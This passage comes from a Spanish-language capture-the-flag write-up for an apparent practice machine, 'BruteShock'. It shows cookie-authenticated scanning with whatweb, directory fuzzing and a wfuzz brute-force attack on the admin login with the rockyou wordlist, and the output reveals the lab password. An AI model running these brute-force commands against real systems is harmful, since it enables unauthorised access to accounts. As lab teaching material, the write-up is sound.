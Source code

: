 ~~~ bash
HTTP/1.1 200 OK
Date: Fri, 28 Mar 2025 18:02:20 GMT
Server: Apache/2.4.62 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
~~~

Entonces si usamos la cookie que nos proporcionó en el navegador, ahora tendremos acceso al contenido. Ahora podemos hacer el escaneo que hicimos antes con `whatweb`

~~~ bash
whatweb http://bruteshock.dl -H 'Cookie: PHPSESSID=q2srkbctkotmpqecc9j7r3mpqa'
http://bruteshock.dl [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[172.17.0.2], PasswordField[password], Title[Web Privada]
~~~


## Fuzzing

Como no vemos algún recurso del que podamos abusar directamente, haremos `fuzzing` para descubrir directorios o archivos interesantes, lo haremos con la herramienta `wfuzz`

~~~ bash
wfuzz -c --hc=404 -b 'PHPSESSID=p94n4hgjjvq1ti9f7relhhdh06' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://bruteshock.dl/FUZZ
~~~

- `-c`: Formato colorizado
- `--hc=404`: Ocultamos las respuestas con el código de estado `404`
- `-H`: Definir una cabecera `HTTP`, en este caso es necesario enviar el valor de la `cookie` de sesión 
- `-w`: Diccionario de palabras a usar
- `-t 200`: Definimos 200 subprocesos para agilizar el proceso de `fuzzing`

Pero no obtendremos resultados interesantes, en este punto podemos intentar hacer un ataque de fuerza bruta para intentar descubrir alguna contraseña en el `login`



# Intrusión / Explotación
---
## Login Page Brute Forcing

Primeramente podemos intentar hallar la contraseña de un usuario `admin` (nombre común en sistemas) a través de un ataque de fuerza bruta al panel de autenticación usando `wfuzz`, si no tenemos éxito podemos intentar adivinar un nombre de usuario válido, aunq

~~~ bash
wfuzz -c --hl 69 -b "PHPSESSID=q2srkbctkotmpqecc9j7r3mpqa" -d "username=admin&password=FUZZ" -w /usr/share/wordlists/rockyou.txt -t 200 http://bruteshock.dl
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://bruteshock.dl/
Total requests: 14344392
=====================================================================
ID           Response   Lines    Word       Chars       Payload    
=====================================================================
000013635:   200        0 L      5 W        119 Ch      "christelle" 
~~~
